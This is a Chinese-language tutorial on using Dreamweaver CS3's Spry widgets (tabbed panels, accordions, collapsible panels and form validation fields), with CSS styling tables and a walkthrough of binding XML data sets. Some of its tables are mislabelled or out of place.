一些网站开发者为了在网页上显示更多内容，往往将网页设计得很长，用户需要不停地滚动鼠标才能查看内容；或者将长内容的网页分割成多个网页，强迫用户只有通过单击不同的页面才能浏览到相应的内容。这些设计给用户提供了非常烦琐的操作和不友好的体验。为了改革这种现状，Dreamweaver CS3中集成了一个选项卡式面板构件，它可以将众多的信息集合到一个分隔的选项卡面板组上，当页面打开时，这些选项卡的内容将同时载入，用户单击不同的选项卡就可以切换到不同的内容（图5）。

#### (1)添加选项卡式面板
选项卡式面板可以插入到网页中的任何位置，但是由于它在面板的顶部是一个标签行，用来显示不同的选项，因此，需要一个足够的水平空间来放置所有的选项卡，一般情况下，需要将选项卡式面板放置到一个较大的空间位置。
在网页中插入选项卡式面板构件的具体操作如下：新建一个HTML网页，将它命名保存。将光标移到网页中要插入选项卡式面板的位置。单击“插入记录→Spry→Spry选项卡式面板”命令或者直接单击“插入工具条”“Spry”标签页中的“Spry选项卡式面板”图标。在网页中插入一个选项卡式面板（图6），它包含两个选项卡和两个面板，同时，在面板的上面出现一个蓝色的选项卡，这个蓝色的选项卡指向这个选项卡式面板，利用它可以很方便地选中选项卡式面板并在属性检查器中设置它的属性。

在属性检查器中，命名面板组。这一步是个可选项。Dreamweaver为面板组提供了一个默认的名称TabbedPanels1，你可以根据需要进行修改，一般情况下无需改动。添加另外的面板。如果两个面板不能满足需要，可以在属性检查器中单击加号按钮，添加一个新面板。选中某个面板，单击减号按钮可将其删除掉。选中要移动的面板，单击向上箭头或向下箭头可以向上或向下移动该面板。
#### (2)添加和编辑面板内容
每个面板都包括两个部分：一个标签和一个面板内容。要想修改标签内容只需在“设计”视图中选中并替换选项卡文本即可。面板内容包含在一个`<div>`标签中，可以通过在面板中的任何位置单击来选中它。在面板中可以插入任何HTML元素：标题、段落、列表、表单、图像、Flash动画，甚至可以在面板中插入另外的Spry选项卡式面板。由于选项卡式面板同时提供了多个面板，而在一个时刻只有一个面板是可见的。为了解决这个问题，Dreamweaver在选项卡上添加了一个眼睛图标，当要编辑某个面板时，将鼠标移到选项卡上，在选项卡右侧出现眼睛图标，单击这个眼睛图标，该选项卡即进入编辑状态，然后就可以编辑该面板中的内容。
#### (3)格式化选项卡式面板
选项卡式面板实际上是一个带有较好CSS的HTML，选项卡按钮是一个简单的项目列表，它的每一个面板都是一个单独的div，所有的面板又组合成另一个div。选项卡式面板的所有格式，如选项卡按钮、边框、背景色等，都受一个叫Sprytabbedpanels.css的样式表文件控制，这个样式表文件保存在站点根目录的SpryAssets目录中。要想自定义面板样式，首先要使某个选项卡可见，变成当前活动的选项卡，然后选中要修改的元素，修改它的样式。具体操作如下：单击“窗口→CSS样式”，打开CSS样式面板，单击其中的“全部”按钮，切换到所有（文档）模式。单击加号按钮，展开Sprytabbedpanels.css样式表文件的样式列表。在样式列表中，双击要修改的样式名称，打开“CSS规则定义”窗口。在“CSS规则定义”窗口中修改相应的属性，然后单击“确定”按钮完成编辑。样式修改完成后，Dreamweaver自动打开Sprytabbedpanels.css样式表文件，将样式表文件和当前网页保存，就可以浏览网页，查看效果。为了帮助大家修改选项卡式面板的样式，表2列出了各种样式内容及相应的CSS规则。

| 要更改的样式内容 | CSS规则 | 相关属性和默认值 |
|------------------|---------|------------------|
| 默认文本 | ul.MenuBarVertical a, ul.MenuBarHorizontal a | color: #333; text-decoration: none; |
| 当鼠标指针移过文本上方时，文本的颜色 | ul.MenuBarVertical a:hover, ul.MenuBarHorizontal a:hover | color: #FFF; |
| 具有焦点的文本的颜色 | ul.MenuBarVertical a:focus, ul.MenuBarHorizontal a:focus | color: #FFF; |
| 当鼠标指针移过菜单栏项上方时，菜单栏项的颜色 | ul.MenuBarVertical a.MenuBarItemHover, ul.MenuBarHorizontal a.MenuBarItemHover | color: #FFF; |
| 当鼠标指针移过子菜单项上方时，子菜单项的颜色 | ul.MenuBarVertical a.MenuBarItemSubmenuHover, ul.MenuBarHorizontal a.MenuBarItemSubmenuHover | color: #FFF; |
| 默认背景 | ul.MenuBarVertical a, ul.MenuBarHorizontal a | background-color: #EEE; |
| 当鼠标指针移过背景上方时，背景的颜色 | ul.MenuBarVertical a:hover, ul.MenuBarHorizontal a:hover | background-color: #33C; |
| 具有焦点的背景的颜色 | ul.MenuBarVertical a:focus, ul.MenuBarHorizontal a:focus | background-color: #33C; |
| 当鼠标指针移过菜单栏项上方时，菜单栏项的颜色 | ul.MenuBarVertical a.MenuBarItemHover, ul.MenuBarHorizontal a.MenuBarItemHover | background-color: #33C; |
| 当鼠标指针移过子菜单项上方时，子菜单项的颜色 | ul.MenuBarVertical a.MenuBarItemSubmenuHover, ul.MenuBarHorizontal a.MenuBarItemSubmenuHover | background-color: #33C; |
| 更改菜单项的li标签的宽度 | ul.MenuBarVertical li, ul.MenuBarHorizontal li | 将width属性更改为所需的宽度（或者将该属性更改为auto以删除固定宽度，然后向该规则中添加white-space: nowrap; 属性和值） |
| 更改菜单项的ul标签的宽度 | ul.MenuBarVertical ul, ul.MenuBarHorizontal ul | 将width属性更改为所需的宽度（或者将该属性更改为auto以删除固定宽度） |
| 定位子菜单的位置 | ul.MenuBarVertical ul, ul.MenuBarHorizontal ul | 将默认值margin: -5% 0 0 95%; 更改为所需的值 |

| 要更改的文本 | 相关CSS规则 | 要添加的属性和值 |
|--------------|-------------|------------------|
| 整个构件中的文本 | .TabbedPanels | font: Arial; font-size: medium; |
| 仅限面板选项卡中的文本 | .TabbedPanelsTabGroup 或 .TabbedPanelsTab | font: Arial; font-size: medium; |
| 仅限内容面板中的文本 | .TabbedPanelsContentGroup 或 .TabbedPanelsContent | font: Arial; font-size: medium; |

##### 3. 折叠构件
折叠构件是一组可折叠的面板，它是又一个在多面板上显示较多内容的可以节省空间的Spry工具，与选项卡式面板类似，折叠构件也包括多个信息面板，每个面板都有一个标签，这些面板一个挨一个地层叠在一起，单击面板上的标签可以用一个平滑的动画效果展开面板，显示面板中的内容。单击不同的标签，折叠构件的面板会相应地展开或收缩。在折叠构件中，每次只能有一个内容面板处于打开且可见的状态（图7）。
#### (1)添加折叠构件
折叠构件的默认HTML中包含一个含有所有面板的外部div标签以及各面板对应的div标签，各面板的标签中还有一个标题div。和内容div。折叠构件可以包含任意数量的单独面板。折叠构件可以放置在网页中的任意位置。

在网页中插入折叠构件的具体操作如下：

将鼠标插入点移到页面中插入折叠构件的位置。

单击“插入记录→Spry→Spry折叠式”命令或直接单击“插入”工具条“Spry”标签页中的“Spry折叠式”图标，在网页中插入一个折叠构件。

在属性检查器中，命名这个折叠构件，与选项卡式面板一样，这是一个可选项。

向折叠构件添加其他的面板。在属性检查器中单击加号按钮添加一个新的标签和面板。在面板列表中选中一个标签名称，单击减号按钮可将它删除。单击向上和向下箭头可以调整面板的顺序。

(2)添加和编辑折叠构件内容

折叠构件包括两部分：一个标签和一个内容面板。每个标签嵌入到它自己的div标签，面板内容包含在另一个div标签中，所有的面板又包含在一个大的div标签中。

为了编辑标签中的文本，只需在“设计”视图中选中文本，然后输入新的文本即可。由于标签文本的宽度与整个面板相同，因此，可以在标签页中输入较多的文字。

与选项卡式面板相同，必须将某个面板变为当前活动的面板才能进行编辑。将鼠标移到标签栏上，右边出现一个眼睛图标，单击该图标即可打开面板进行编辑。在面板中可以插入任何HTML元素，如标题、图像、项目列表、表单、段落、Flash动画等。

在编辑过程中会遇到一个问题：如果在内容区添加了较多的内容（超过了面板默认的高度），在Dreamweaver中将不能看到所有的内容，尽管在浏览时，会在面板右边添加一个滚动条来进行查看。为了解决这个问题，可以采取两种方法，一种方法是双击该面板，另一种方法是右键单击该面板，在弹出的菜单中选择“元素视图→完整”命令，这样就可以显示添加到面板中的所有内容，然后就可以进行编辑了。

(3)格式化折叠构件

在网页中插入一个Spry折叠构件后，Dreamweaver将自动将一个Spryaccordion.css样式表文件链接到该网页，这个样式表文件保存在站点根目录的SpryAssets目录中，它控制着折叠构件的外观。修改折叠构件样式的操作方法与选项卡式面板的一样：选定你要修改的元素，然后打开和编辑元素的样式。

表3列出了要修改的折叠构件的样式内容及相应的CSS规则。

表3
| 要更改的样式内容 | CSS 规则 | 要添加或更改的属性和值 |
| :--- | :--- | :--- |
| 整个折叠构件（包括选项卡和内容面板）中的文本 | .Accordion 或 .AccordionPanel | font: Arial; font-size:medium; |
| 仅限折叠式面板选项卡中的文本 | .AccordionPanelTab | font: Arial; font-size:medium; |
| 仅限折叠式内容面板中的文本 | .AccordionPanelContent | font: Arial; font-size:medium; |
| 折叠式面板选项卡的背景颜色 | .AccordionPanelTab | background-color: #CCCCCC;（这是默认值。） |
| 折叠式内容面板的背景颜色 | .AccordionPanelContent | background-color: #CCCCCC; |
| 已打开的折叠式面板的背景颜色 | .AccordionPanelOpen .AccordionPanelTab | background-color: #EEEEEE;（这是默认值。） |
| 鼠标悬停在其上的面板选项卡的背景颜色 | .AccordionPanelTabHover | color: #555555;（这是默认值。） |
| 鼠标悬停在其上的已打开面板选项卡的背景颜色 | .AccordionPanelOpen .AccordionPanelTabHover | color: #555555;（这是默认值。） |
| 限制折叠构件的宽度 | .Accordion | 添加一个width属性和值，例如width: 300px; |

##### 4. 可折叠面板构件

可折叠面板构件是一个单独的面板，与折叠构件不同的是，折叠构件由多个面板组成，而可折叠面板构件只有一个面板。这个面板是一个开关式的设计，单击标签一次显示内容，再单击一次隐藏内容（图8）。用户可以设置该面板在网页载入时是打开或关闭状态，如果要向访问者显示的是重要内容，可以将面板设为打开状态，这样用户一打开网页就能浏览到面板中的内容。如果面板中放置的是用户需要时再浏览的内容，如用户注册页面，则可以把它设为关闭状态，在用户感兴趣时单击面板即可打开浏览。


(1)添加可折叠面板构件

将鼠标插入点移到页面中插入可折叠构件的位置。

单击“插入记录→Spry→Spry可折叠面板”命令或直接单击“插入”工具条“Spry”标签页中的“Spry可折叠面板”图标，在网页中插入一个可折叠构件。

在属性检查器中，命名这个可折叠构件，与选项卡式面板一样，这是一个可选项。

在属性检查器“显示”菜单中设置面板打开或关闭状态。单击“显示”右边的下拉菜单可设置在“设计”视图中打开或关闭可折叠面板，这个操作是帮助用户在Dreamweaver中编辑可折叠面板而设计的，它不会影响面板在浏览器中的显示。

在属性检查器“默认状态”菜单中设置面板打开或关闭状态。从“默认状态”下拉菜单中选择“打开”或“已关闭”选项，这个设置将决定在浏览器中打开网页时，可折叠面板呈现的状态，是打开还是关闭。

启用或禁用可折叠面板构件动画。选中属性检查器中的“启用动画”选项，当用户单击该面板时，面板将缓缓地平滑打开和关闭，如果不选中该选项，在用户单击面板时，面板会迅速打开和关闭。

(2)向面板中添加内容

可折叠面板是一个div标签的组合，它由一个标签div和一个内容div组成，同时它本身又是一个div。

要想编辑标签文本，只需要在“设计”视图中选中标签文本，然后输入文字内容，也可以在标签中单击鼠标，然后按Ctrl+A一次选中所有文本进行编辑。

要想编辑面板中的内容，必须首先使面板可见。将鼠标移到标签条上，单击标签右边的眼睛图标使面板内容显示出来，然后就可以在面板中插入各种HTML元素，如标题、段落、项目列表、表单、图像、Flash动画等。

(3)格式化可折叠面板构件

在网页中插入一个Spry可折叠面板构件后，Dreamweaver将自动创建一个Sprycollapsiblepanel.css样式表文件并链接到该网页。这个样式表文件保存在站点根目录的SpryAssets目录中，通过修改这个样式表就可以设置可折叠面板构件的外观，修改的方法与选项卡式面板的操作完全一样。

表4列出了要修改的可折叠面板构件的样式内容及相应的CSS规则。

表4
| 要更改的样式内容 | CSS 规则 | 要添加或更改的属性 |
| :--- | :--- | :--- |
| 面板选项卡的背景颜色 | .CollapsiblePanelTab | background-color: #DDD;（这是默认值。） |
| 内容面板的背景颜色 | .CollapsiblePanelContent | background-color: #DDD; |
| 在面板处于打开状态时，选项卡的背景颜色 | .CollapsiblePanelOpen .CollapsiblePanelTab | background-color: #EEE;（这是默认值。） |
| 当鼠标指针移过已打开面板选项卡上方时，选项卡的背景颜色 | .CollapsiblePanelTabHover、.CollapsiblePanelOpen .CollapsiblePanelTabHover | background-color: #CCC;（这是默认值。） |
| 限制可折叠面板构件的宽度 | .CollapsiblePanel | 添加一个 width 属性和值，例如 width: 300px; |
| 整个可折叠面板中的文本 | .CollapsiblePanel | font: Arial; font-size:medium; |
| 仅限面板选项卡中的文本 | .CollapsiblePanelTab | font: bold 0.7em sans-serif;（这是默认值。） |
| 仅限内容面板中的文本 | .CollapsiblePanelContent | font: Arial; font-size:medium; |

##### 5. 验证文本域构件

Spry验证文本域构件是一个文本域，该域用于在站点访问者输入文本时显示文本的状态（有效或无效）。例如，你可以向访问者输入电话号码的表单中添加验证文本域构件，如果访问者输入的电话号码格式不对，验证文本域构件会返回一条消息，提示用户输入的信息无效（图9）。


验证文本域可以说是使用最广泛的一个表单元素，它有广泛的信息验证类型，可以帮助用户收集姓名、电子邮件地址、电话号码、IP 地址等信息。Spry 验证文本域构件提供 14 种不同的验证类型，即无、整数、电子邮件、日期、时间、信用卡、邮政编码、电话号码、社会安全码、货币、实数/科学记数法、IP 地址、URL、自定义。有些验证类型，如日期、时间、信用卡、邮政编码、货币、IP 地址，包括一些固定的格式供用户选择，当然用户也可以自定义格式。



### (1)添加验证文本域构件

向网页中添加一个 Spry 验证文本域构件的具体操作如下：
将光标插入点移到网页中要插入验证文本域的位置。
单击“插入记录→Spry→Spry 验证文本域”命令，或直接单击“插入”工具条“Spry”标签页中的“Spry 验证文本域”图标。

设置验证发生的时间。Dreamweaver 默认是在提交（onsubmit）表单时进行验证。如果要在提交表单前验证文本，请选择 onblur（模糊）或 onchange（更改）选项。onblur 是指当用户在文本域的外部单击时验证，onchange 是指当用户更改验证文本域中的文本时验证。

在“提示”文本框中输入将出现在文本域中的提示文字，这些提示信息将提醒用户输入正确的信息。例如：验证类型设置为“电话号码”的文本域将只接受（000）000-0000 形式的电话号码，可以输入这些示例号码作为提示，以便用户在浏览器中加载页面时，文本域中显示正确的格式。

设置其他验证选项。根据所选择的验证类型还可以设置最小字符数、最大字符数、最小值、最大值。

如果希望用户只在表单中输入希望的字符，请选中“强制模式”选项，这样用户就不能在表单中输入无效字符，如果输入无效字符，文本域将不显示任何内容。

如果在 Dreamweaver 参数设置中设置了在插入时显示表单对象的辅助功能属性，将出现“输入标签辅助功能属性”对话框，输入 ID 和“标签文字”，然后单击“确定”按钮。也可以不输入任何内容，直接单击“取消”按钮。

如果光标没有在<form>标签内，Dreamweaver 将弹出一个窗口，提示是否添加表单标签，单击“是”按钮。

验证文本域构件具有许多状态，例如有效、无效、必填等，在设置验证选项时，可以根据需要进行设置。Spry 验证文本域提供以下四种不同状态：
初始状态：在浏览器中加载页面或用户重置表单构件的状态。
必需状态：当用户在文本域中没有输入必需文本时构件的状态。
无效状态：当用户所输入文本的格式无效时构件的状态。
有效状态：当用户正确地输入信息且表单可以提交时构件的状态。

在网页中插入一个验证文本域，从属性检查器“类型”下拉菜单中给验证文本域选择一种验证类型（图10）。如果想在表单中输入文本值，请在“类型”下拉菜单中选择“无”，并且选中“必需的”选项。

如果验证的是一个数据格式的类型，请在“格式”下拉菜单中选择相应的格式。如时间格式有 hh:mm、hh:mm:ss 类型。

### (2)设置验证类型和格式

Spry验证文本域构件共包括14种验证类型，可以通过属性检查器中的“类型”下拉菜单进行选择，不同的验证类型对数据格式的要求也不相同，表5列出了各种验证类型和格式要求，可以作为设计时的参考。

表5
| 验证类型 | 格式 |
| :--- | :--- |
| 无 | 无需特殊格式。 |
| 整数 | 文本域仅接受数字。 |
| 电子邮件 | 文本域接受包含@和句点(.)的电子邮件地址，而且@和句点的前面和后面都必须至少有一个字母。 |
| 日期 | 格式可变。可以从属性检查器的“格式”弹出菜单中进行选择。 |
| 时间 | 格式可变。可以从属性检查器的“格式”弹出菜单中进行选择。（“tt”表示 a m/p m 格式，“t”表示 a/p 格式。） |
| 信用卡 | 格式可变。可以从属性检查器的“格式”弹出菜单中进行选择。可以选择接受所有信用卡，或者指定特定种类的信用卡（MasterCard、Visa 等）。文本域不接受包含空格的信用卡号，例如 4321 3456 4567 4567。 |
| 邮政编码 | 格式可变。可以从属性检查器的“格式”弹出菜单中进行选择。 |
| 电话号码 | 文本域接受美国和加拿大格式（即，(000) 000-0000）或自定义格式的电话号码。如果你选择自定义格式，请在“模式”文本框中输入格式，例如，000.00(00)。 |
| 社会安全号码 | 文本域接受 000-00-0000 格式的社会安全号码。 |
| 货币 | 文本域接受 1,000,000.00 或 1.000.000,00 格式的货币。 |
| 实数/科学记数法 | 验证各种数字：数字（例如 1）、浮点值（例如，12.123）、以科学记数法表示的浮点值（例如，1.212e+12、1.221e-12，其中 e 用作10的幂。） |
| IP 地址 | 格式可变。可以从属性检查器的“格式”弹出菜单中进行选择。 |
| URL | 文本域接受 http://xxx.xxx.xxx 或 ftp://xxx.xxx.xxx 格式的 URL。 |
| 自定义 | 可用于指定自定义验证类型和格式。在属性检查器中输入格式模式（并根据需要输入提示）。 |

### (3)自定义验证类型和格式

除了 Dreamweaver 内置的验证类型，用户还可以根据需要自定义验证类型和格式以扩展表单的用途。自定义验证类型的操作步骤如下：
在网页中选中一个验证文本域控件。
从属性检查器的“类型”下拉菜单中选择一种验证类型。
在“格式”下拉菜单中选择“自定义”模式。
在“图案”文本框中输入自定义的数据格式。

Spry 框架提供了一组特殊字符组合用来帮助用户建立自定义验证类型，如表6所示：

表6
| 字 符 | 描 述 |
| --- | --- |
| 0 | 数字0~9 |
| A或者a | 区分大小写字母 |
| B或者b | 不区分大小写字母 |
| X或者x | 区分大小写字母和数字 |
| Y或者y | 不区分大小写字母和数字 |
| ? | 任何字符 |

0表示0~9之间的数字，例如，你想让电话号码设为七位数字，只需在“图案”文本框中输入0000000即可。
A表示一个单独的大写字母，a表示一个小写字母，如果在“图案”中aaa就表示它匹配小写的abc，而不匹配大写ABC，同理，在“图案”中输入AAA表示匹配ABCD而不匹配abcd。
B或b表示不区分大小写字母，也就是说，在“图案”中输入BBB，它匹配abc和ABC。
X表示包含数字和大写字母。x表示匹配数字和小写字母，Y或y表示匹配数字和字母，不区分大小写字母，例如：XXX表示匹配B2B、BBB和123，而不匹配b2b或bbb。
? 表示匹配任何字符，除了字母和数字，一些特殊字符，如句号、感叹号或$也是允许的。
在格式设置中，可以使用句号、逗号或连字号作为数据格式的一部分，如000-AAA、000-000-000、0000-000-00、00:00:00都是合法的格式。

### (4)格式化验证文本域构件

当保存包含验证文本域构件的网页时，在当前站点根目录的SpryAssets目录中会自动保存一个名为Spryvalidationtextfield.css的样式表文件，通过修改这个样式表文件可以修改验证文本域构件的外观，样式表的修改方法与前面介绍的几个构件相同。
表7列出了要修改的验证文本域构件的样式内容及相应的CSS规则。

表7
| 要更改的样式内容 | CSS 规 则 | 要更改的相关属性 |
| :--- | :--- | :--- |
| 处于“有效”状态的构件的背景颜色 | .textfieldValidState input 或 input.textfieldValidState | background-color: #F8F5B1; |
| 处于“无效”状态的构件的背景颜色 | input.textfieldRequiredState、.textfieldRequiredState input、input.textfieldInvalidFormatState、.textfieldInvalidFormatState input、input.textfieldMinValueState、.textfieldMinValueState input、input.textfieldMaxValueState、.textfieldMaxValueState input、input.textfieldMinCharsState、.textfieldMinCharsState input、input.textfieldMaxCharsState 或 .textfieldMaxCharsState input | background-color: #FF9F9F; |
| 处于“焦点”状态的构件的背景颜色 | .textfieldFocusState input 或 input.textfieldFocusState | background-color: #FFFFCC; |
| 错误消息文本 | .textfieldRequiredState .textfieldRequiredMsg、.textfieldInvalidFormatState .textfieldInvalidFormatMsg、.textfieldMinValueState .textfieldMinValueMsg、.textfieldMaxValueState .textfieldMaxValueMsg、.textfieldMinCharsState .textfieldMinCharsMsg 或 .textfieldMaxCharsState .textfieldMaxCharsMsg | color: #CC3333; border: 1px solid #CC3333; |

##### 6. 验证文本区域构件

Spry文本区域构件是一个文本域，该区域在用户输入几个文本句子时显示文本的状态（有效或无效）。验证文本区域构件主要用来收集包含多个段落的文本内容，由于验证文本区域是用来接收任何类型的输入，所以它不像验证文本域那样有验证类型，但是它可以限制输入文本的字符数，可以设置输入文本的最大字符数、最小数或两者均有。为了帮助计数，可以添加一个计数器来显示输入或剩余的字符数，任何超过最大字符数限制的输入将被限制。

### (1)添加验证文本区域构件

将光标插入点移到网页中要插入验证文本区域的位置。
单击“插入记录→Spry→Spry验证文本区域”命令，或直接单击“插入”工具条“Spry”标签页中的“Spry验证文本区域”图标。
出现“输入标签辅助功能属性”对话框，在ID和“标签文字”中输入内容，单击“确定”按钮。也可以不输入任何内容，直接单击“取消”按钮。
弹出窗口提示是否添加表单标签，单击“是”按钮。
在网页中插入一个验证文本区域构件。默认情况下，所有验证文本区域构件都要求用户在将构件发布到Web页之前输入内容。但是，可以将验证文本区域设置为可选的。从属性检查器中，根据需要确定是否选中或取消“必需的”选项。
如果想在提交表单前验证表单字段，可以选择Onblur（模糊）或Onchange（更改）选项。
如果想限制输入字符的数量，可以在“最大字符数”和“最小字符数”框中输入数字。
如果想统计输入的字符数，可以在“计数器”中选择“字符计数”选项，选“其余字符”可以显示剩余的字符数。
选中“禁止额外字符”选项，可以防止用户在验证文本区域构件中输入的文本超过所允许的最大字符数。
如果想在文本区域中显示一些提示用户注意的文本信息，请在“提示”文本框中输入提示文字，这些文字将在加载网页时显示在文本区域中。
根据属性检查器的设置，验证文本区域构件提供了五种不同的状态，在设置验证选项时，可以在“预览状态”下拉菜单中进行选择。
初始状态：在浏览器中加载页面或用户重置表单时构件的状态。
必需状态：如果用户没有输入任何文本，将显示一个错误信息。
最小字符数状态：如果设置了最小字符数，当输入的文本未达到最小字符数时将显示一个错误信息。
最大字符数状态：如果设置了最大字符数，当输入的文本超过最大字符数时将显示一个错误信息。

### (2)格式化验证文本区域构件

在保存包含验证文本区域构件的网页时，会在当前站点根目录的SpryAssets目录中保存一个Spryvalidationtextarea.css样式表文件，修改这个样式表可以控制验证文本区域构件的外观，修改方法与前面介绍的构件相同。
表8列出了要修改的验证文本区域构件的样式内容及相应的CSS规则。

##### 7. 验证选择构件

Spry验证选择构件是一个下拉菜单，该菜单在用户进行选择时会显示构件的状态（有效或无效）。另外，你还可以指定不选择分隔线或其他无效选项（图11）。



### (1)添加验证选择构件

将光标插入点移到网页中要插入验证选择构件的位置。
单击“插入记录→Spry→Spry验证选择”命令，或直接单击“插入”工具条“Spry”标签页中的“Spry验证选择”图标。
出现“输入标签辅助功能属性”对话框，在ID和“标签文字”中输入内容，单击“确定”按钮。也可以不输入任何内容，直接单击“取消”按钮。
弹出窗口提示是否添加表单标签，单击“是”按钮。
在网页中插入一个验证选择构件。默认情况下，所有验证选择构件都要求用户将构件发布到Web页之前，选择具有相关值的菜单项；但是，可以根据需要禁用此选项。在属性检查器中，选择或取消选择“不允许空值”选项。

如果想在提交表单前验证表单字段，可以选择onblur（模糊）或onchange（更改）选项。

如果表单中包含一个分隔线或其他无意义的选项时，可以选中“无效值”选项，然后指定一个值，当用户选择与该值相关的菜单项时，该值将注册为无效。例如，如果指定2是无效值，并将该值赋给某个选项标签，则当用户选择菜单项时，该构件将返回一条错误消息。

验证选择构件有四种不同的状态：初始状态、有效状态、无效状态和必需状态，这些状态的含义与前面介绍的构件相同，在设置验证选项时，可以在“预览状态”下拉菜单中进行选择。

## (2)格式化验证选择构件

通过修改保存在站点根目录的SpryAssets目录中的Spryvalidationselect.css样式表文件，可以控制验证选择构件的外观，修改方法与前面介绍的构件相同。

表9列出了要修改的验证选择构件的样式内容及相应的CSS规则。

| 要更改的样式内容 | CSS 规则 | 要更改的相关属性 |
| --- | --- | --- |
| 处于“有效”状态的构件的背景颜色 | .textareaValidState textarea或textarea.textareaValidState | background-color: #B8F5B1; |
| 处于“无效”状态的构件的背景颜色 | textarea.textareaRequiredState、.textareaRequiredState textarea、textarea.textareaMinCharsState、.textareaMinCharsState textarea、textarea.textareaMaxCharsState或.textareaMaxCharsState textarea | background-color: #FF9F9F; |
| 处于“焦点”状态的构件的背景颜色 | .textareaFocusState textarea或textarea.textareaFocusState | background-color: #FFFFCC; |
| 错误消息文本 | .textareaRequiredState .textareaRequiredMsg、.textareaMinCharsState .textareaMinCharsMsg或.textareaMaxCharsState .textareaMaxCharsMsg | color: #CC3333; border: 1px solid #CC3333; |

| 要更改的样式内容 | CSS 规则 | 要更改的相关属性 |
| --- | --- | --- |
| 处于“有效”状态的构件的背景颜色 | .selectValidState select或select.selectValidState | background-color: #B8F5B1; |
| 处于“无效”状态的构件的背景颜色 | select.selectRequiredState、.selectRequiredState select、select.selectInvalidState或.selectInvalidState select | background-color: #FF9F9F; |
| 处于“焦点”状态的构件的背景颜色 | .selectFocusState select或select.selectFocusState | background-color: #FFFFCC; |
| 错误消息文本 | .selectRequiredState .selectRequiredMsg或.selectInvalidState .selectInvalidMsg | color: #CC3333; border: 1px solid #CC3333; |

## 8.验证复选框构件

Spry验证复选框是HTML表单中的一个或一组复选框，该复选框在用户选择（或没有选择）复选框时会显示构件的状态（有效或无效），用户可以根据需要设置复选框的最小选择数和最大选择数（图12）。


### (1)添加验证复选框构件

将光标插入点移到网页中要插入Spry验证复选框的位置。

| 要设置样式的文本 | CSS 规则 | 要更改的相关属性 |
| --- | --- | --- |
| 错误消息文本 | .checkboxRequiredState .checkboxRequiredMsg、.checkboxMinSelectionsState .checkboxMinSelectionsMsg或.checkboxMaxSelectionsState .checkboxMaxSelectionsMsg | color: #CC3333; border: 1px solid #CC3333; |

#### 三、使用Spry显示XML数据

使用Spry框架可以插入XML数据对象，让用户从浏览器窗口中以动态方式与页面快速交互。Spry数据集允许用户创建交互式的数据表格来显示XML数据，并且可以使一列或多列可排序，以便用户只需单击某一列即可对其进行排序。用户还可以在页面上插入动态表格和Spry详细区域，然后将数据绑定到这两个区域（动态表格和详细区域），当用户单击动态表格中的某一行时，详细区域会显示详细信息（图13）。



在网页中插入XML数据一般需要以下几个步骤：

- 连接XML数据
- 指定Spry区域
- 绑定数据
- 连接主/详细区域
- 添加重复区域

下面我们就一步步来了解详细的操作。

## 1.连接XML数据

在Dreamweaver中每一个指向XML数据源的连接叫“Spry数据集”，每一个数据集连接一个XML文件中的特定标签或节点。

一个XML文件的结构一般是这样的：

```
xml
<?xml version="1.0" encoding="utf-8"?>
<properties>
<property>
<type>House</type>
<address>76 lesan road</address>
<city>luoyang</city>
<state>henan</state>
<zip>438291</zip>
</property>
<property>
<type>Office</type>
<address>108 jiefang road</address>
<city>kaifeng</city>
<state>henan</state>
<zip>458302</zip>
</property>
</properties>
```

<properties>在这段示例代码中，<property>是一个重复的节点，一个XML数据可以包含多个<property>节点。一旦这个数据集建立了，这个节点就被确定了，每个节点可以包括许多子节点，像本例中的<type>、<address>、<city>、<state>和<zip>。

要向网页中插入XML数据，首先要创建一个数据集，然后才能向HTML页面中添加Spry区域、表格或列表。

创建Spry数据集的步骤如下：
单击“插入记录→Spry→Spry xml数据集”命令，也可以在“绑定”面板中单击加号按钮，在弹出的列表中选择“Spry xml数据集”命令，出现“Spry xml数据集”对话框（图14）。



在“数据集名称”文本框中输入一个名称或者保持默认的名称。
单击“浏览”按钮，打开“XML源”对话框，选择XML数据文件，这个XML文件可以是保存在当前站点中的，也可以是存在于互联网上的，选中后单击“确定”按钮。
单击“获取架构”按钮填充“行元素”面板，此面板显示哪些元素是重复的，以及哪些元素从属于其他元素。
在“行元素”面板中，选择包含要显示的数据的元素。大多数情况下，是选中带有加号标记的重复节点。Dreamweaver在xpath文本框中会自动插入一个合适的语法表达式。
如果想预览选中的节点数据，单击“预览”按钮将显示XML数据文件中的前20行，每一列对应一个元素，单击“确定”按钮关闭预览对话框。

如果想更改元素的数据类型，先在“数据集列”面板中选中该元素，然后从“数据类型”下拉列表中选择一个值。
如果希望在加载数据时自动排序数据，可以在“排序”下拉列表中选择一个元素，然后在“方向”下拉列表中选择按“升序”还是“降序”排列。
为了避免重复列，选中“加载时不同”选项。
如果希望直接从服务器中加载数据，选中“禁用XML缓存”选项。
为了自动更新数据，选中“自动刷新数据”选项，并输入一个毫秒值，系统就会以指定的时间间隔，自动用服务器中的数据刷新数据集内的XML数据。
单击“确定”按钮，建立数据集与页面的关联。在“绑定”面板中会看到创建的数据集。
最后，保存网页。

## 2.定义Spry区域

与XML数据源的连接建好后，下一步就是在页面中定义数据使用的区域。所有Spry数据对象都必须在Spry区域中，Spry区域位于div或span窗口中。
有两种类型的Spry区域：主动态区域和详细动态区域。主动态区域（也称主表格）使用Spry:region属性，详细动态区域使用Spry:detailregion属性，主表格显示数据集内一组简要的列，详细区域显示有关选定记录的详细信息，与主表格对象一起使用时，可以对页面上的数据进行动态更新。

- 在当前光标位置插入一个新的div或span标签。
- 环绕当前选定内容插入一个div或span标签。
- 用一个新的div或span标签替换选定内容。

向网页中添加Spry区域的具体操作如下：
如果想添加一个空白Spry区域，请将鼠标插入点放到要插入的位置；如果想围绕选定内容插入一个Spry区域，请先选中相应的内容。
单击“插入记录→Spry→Spry区域”命令，打开“插入Spry区域”对话框（图15）。


选择窗口类型：div或span，默认值为div。

从“类型”列表中，选择标签类型：区域或详细区域。只有当希望绑定动态数据时，才应使用详细区域，当另一个Spry区域中的数据发生变化时，动态数据将随之更新。需要注意的是，需要将详细区域插入与主表格区域所在的div不同的div中。

从“Spry数据集”下拉列表中选择要使用的数据。

如果事先选中了页面中的内容，请在“插入”项中选择“环绕选定内容”或“替换选定内容”选项。

单击“确定”按钮，在页面中插入一个Spry区域。

## 3.给页面绑定数据

创建数据集之后，在“绑定”面板上会显示Spry数据列，数据列必须插入Spry区域中才能显示数据。向Spry区域中插入数据列的方法有以下二种：

- 拖放操作：将数据列从绑定面板拖放到Spry区域中的任何位置。如果将数据列放置在一个选定内容上，这个选定内容将被数据列替换。
- 手工输入：在“代码”视图中，手工输入相应的代码。

